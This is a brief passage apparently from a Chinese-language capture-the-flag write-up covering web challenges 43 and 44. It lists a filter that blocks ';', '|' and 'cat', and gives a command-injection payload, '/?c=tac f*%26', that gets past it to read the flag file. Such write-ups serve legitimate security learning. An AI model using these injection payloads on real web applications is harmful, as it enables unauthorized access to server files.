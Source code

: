 得到flag

------

#### web43

分析

![image-20231216125642839](image/image-20231216125642839.png)

过滤了

```
;|cat
```

构建命令

```
/?c=tac f*%26
```

![image-20231216125915146](image/image-20231216125915146.png)

得到flag

------

#### web44

分析

![image-20240120124425656](image/image-20240120124425656.png)